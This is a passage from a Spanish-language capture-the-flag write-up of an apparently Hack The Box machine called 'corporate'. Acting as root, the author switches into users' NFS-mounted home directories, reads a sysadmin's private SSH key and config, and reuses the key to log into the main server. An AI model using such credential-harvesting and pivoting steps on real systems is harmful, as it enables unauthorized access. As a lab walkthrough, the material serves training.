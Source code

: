 ```bash
candido.mcdermott   justyn.beahan         sadie.greenfelder
cathryn.weissnat    kacey.krajcik         scarlett.herzog
cecelia.west        kasey.walsh           skye.will
christian.spencer   katelin.keeling       stephen.schamberger
dangelo.koch        katelyn.swift         stevie.rosenbaum
dayne.ruecker       kian.rodriguez        tanner.kuvalis
dessie.wolf         larissa.wilkinson     uriel.hahn
dylan.schumm        laurie.casper         veda.kemmer
elwin.jones         leanne.runolfsdottir  ward.pfannerstill
elwin.mills         lila.mcglynn          zaria.kozey
```
> También puedes simplemente convertirte en uno de estos usuarios utilizando `su` ya que eres root, e igual necesitarás hacerlo para poder ver sus directorios ya que están protegidos por el NFS.
{: .prompt-tip }

Son los directorios personales de todos los usuarios, vaya... viendo que tienen los del grupo sysadmin, especificamente Stevie Rosenbaum en su directorio nos encontramos con una llave SSH privada y parece que es para el equipo principal (`10.8.0.1`)

```bash
root@corporate-workstation-04:/mnt# su stevie.rosenbaum
stevie.rosenbaum@corporate-workstation-04:/mnt$ cd stevie.rosenbaum/
stevie.rosenbaum@corporate-workstation-04:/mnt/stevie.rosenbaum$ ls -la
total 36
drwxr-x---  5 stevie.rosenbaum stevie.rosenbaum 4096 Nov 27  2023 .
drwxr-xr-x 80 root             root             4096 Apr  8  2023 ..
lrwxrwxrwx  1 root             root                9 Nov 27  2023 .bash_history -> /dev/null
-rw-r--r--  1 stevie.rosenbaum stevie.rosenbaum  220 Apr 13  2023 .bash_logout
-rw-r--r--  1 stevie.rosenbaum stevie.rosenbaum 3526 Apr 13  2023 .bashrc
drwx------  2 stevie.rosenbaum stevie.rosenbaum 4096 Apr 13  2023 .cache
drwxrwxr-x  3 stevie.rosenbaum stevie.rosenbaum 4096 Apr 13  2023 .local
-rw-r--r--  1 stevie.rosenbaum stevie.rosenbaum  807 Apr 13  2023 .profile
drwx------  2 stevie.rosenbaum stevie.rosenbaum 4096 Apr 13  2023 .ssh
-rw-r--r-- 79 root             sysadmin           33 Jul  9 10:06 user.txt
stevie.rosenbaum@corporate-workstation-04:/mnt/stevie.rosenbaum$ cd .ssh
stevie.rosenbaum@corporate-workstation-04:/mnt/stevie.rosenbaum/.ssh$ ls
config  id_rsa  id_rsa.pub  known_hosts  known_hosts.old
stevie.rosenbaum@corporate-workstation-04:/mnt/stevie.rosenbaum/.ssh$ cat config
Host mainserver
    HostName corporate.htb
    User sysadmin
```

Intentando usarla en el host que nos indican, nos permite el acceso y por ende hemos pivotado al equipo principal.

```bash
❯ /usr/bin/ssh -i sysadmin.key sysadmin@10.8.0.1
Linux corporate 5.15.131-1-pve #1 SMP PVE 5.15.131-2 (2023-11-14T11:32Z) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Dec 27 09:50:05 2023 from 10.8.0.3
sysadmin@corporate:~$
```
